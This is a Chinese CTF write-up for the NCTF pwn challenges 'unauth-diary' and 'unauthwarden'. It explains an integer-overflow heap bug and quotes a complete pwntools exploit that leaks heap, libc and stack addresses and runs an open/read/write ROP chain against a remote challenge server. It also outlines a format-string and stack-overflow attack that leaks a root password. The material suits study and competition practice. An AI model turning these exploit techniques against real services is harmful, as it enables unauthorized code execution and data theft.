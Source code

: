 ```yaml
---
title: NCTF PWN WP
date: '2025-03-22 22:25:26'
updated: '2025-04-07 21:33:51'
---
```

NCTF 好恐怖的强度

## unauth-diary
先是 checksec：

![](/images/f4ae5b0d0adc9db415182c3d04cfdfa9.png)

从来没见过全部绿色的题目，真的被吓到了...这怎么搞

![](/images/bf89aa307bcfb1c7fe1c3362ee708d1e.png)

又是用了 socket 的题目，先让我回去看看之前查的资料

本地 0.0.0.0 端口 9999 连上去看：

![](/images/39747fed600c4500892badcfbb477a56.png)

第一次见 libc 版本这么新的堆题，

题目限制了最多只能有 0xf 也就是 15 个 chunk

![](/images/9739e631121eb91b0a9e99f78941b2dd.png)

第一眼看见两个 free 还怀疑是不是 IDA 逆向错了，换去汇编界面仔细看了一眼还真是两个 free，涉及到好多指针，刚开始看不过来

后面再看了看 add 的具体过程，它是先 malloc 了一块 0x10 大小的 chunk 来存真正要存数据的 chunk 的地址和申请大小（前八字节是地址，后八字节是申请大小），所以一共用到了两次 malloc，所以 delete 那里就有两次 free，不存在 UAF

edit 函数也没有溢出，show 函数也没发现利用点...真的是头大，没有下手点

## 官方 WP
### Unauth-diary 
> 没注意到出题时跟release版本不同，给各位师傅带来了不好的体验，再次给各位师傅磕⼀个
>

⾸先要知道 `malloc(0)` 的⾏为是`malloc(0x20)`   且malloc函数的参数类型是`size_t` 即 `unsigned int` ，4byte。然后程序中存堆结构信息的size部分是8byte，输⼊为4byte，且malloc(size+1)，这⾥假设输⼊size为 `0xffffffff` ，+1后就会导致溢出，进⽽ `malloc(0)`但存储的size为 `0x100000000` 。 后期利⽤的话，由于本题是基于fork的server，不能直接 `system("/bin/sh")` 。 我⾃⼰测试的时候是漏env打栈，直接从没关的socket⾥⾯做orw。 赛中来问我的⼏位⼏乎全都在打io，io由于在exit前socket会被关掉，只能弹flag/shell。 两种打法都要控制rdx的gadget，这个好办，随便找⼀下就⾏了。但打IO需要的magic_gadget可能要费点事。 

#### exp-environ-stack
```python
from pwn import *
	context(arch="amd64", os="linux", log_level="DEBUG")
	s=remote("39.106.16.204",25289)
	libc=ELF("./2libc.so.6")
	def menu(ch):
	s.sendlineafter(b"> ",str(ch).encode())
	def add(size,content=b"/home/ctf/flag\x00"):
	menu(1)
	s.sendlineafter(b"length:\n",str(size).encode())
	s.sendlineafter(b"content:\n",content)
def delete(idx):
	menu(2)
	s.sendlineafter(b"index:\n",str(idx).encode())
def edit(idx,content):
	menu(3)
	s.sendlineafter(b"index:\n",str(idx).encode())
	s.sendlineafter(b"content:\n",content)
def show(idx):
	menu(4)
	s.sendlineafter(b"index:\n",str(idx).encode())
	s.recvuntil(b"Content:\n")
	return #s.recvline()[:-1]
if __name__=="__main__":
	add(0x30)
	add(0xffffffff)
	add(0x80)
	add(0x80)
	edit(1,b"a"*0x20)
	show(2)
	dat=s.recv(8)
	heap_base=u64(dat)-0x320
	success(hex(heap_base))
	delete(1)
	add(0x2000000)
	show(2)
	dat=s.recv(8)
	libc.address=u64(dat)-0x10+0x2001000
	edit(2,p64(libc.sym.environ)+p64(9))
	success(hex(libc.address))
	show(1)
	dat=s.recv(8)
	stack=u64(dat)
	success(hex(stack))
	edit(2,p64(stack-0x2c0)+p64(0x1000))
	rroopp=ROP(libc)
	rdi=libc.address+0x000000000010f75b
	rsi_rbp=libc.address+0x000000000002b46b
	# rbx=libc.address+0x00000000000586e4
	rbx_rbp=libc.address+0x0000000000114d3a
	# 0x00000000000b0133 : mov rdx, rbx ; pop rbx ; pop r12 ; pop rbp ; ret
	magic=libc.address+0x00000000000b0133
	rop_chain=flat([
		rdi,heap_base+0x2c0,
		rsi_rbp,0,0,
		rbx_rbp,0,0,
		magic,0x100,0,0,
		libc.sym.open,
		rdi,3,
		rsi_rbp,heap_base+0x1000,0,
		magic,0x100,0,0,
		libc.sym.read,
		rdi,4,
		libc.sym.write,
	])
	show(1)
	edit(1,rop_chain)
	s.interactive()
```

### unauthwarden
漏洞为ecall_print_username中的fmt和ecall_do_seal_send中的栈溢出。

whoami泄露root密码，

直接构造 `pop rdi; ret; printf(root_password)` 即可。

reveal的正解就是复现论⽂中的⼿法。

但赛中的唯⼀解Laogong直接偷了：

+  ocall_read_user("root.data",len,buffer)
+  unseal_buffer(buffer,len,unsealed_buffer,len)
+  printf(unsealed_buffer)

只能说偷的好啊。

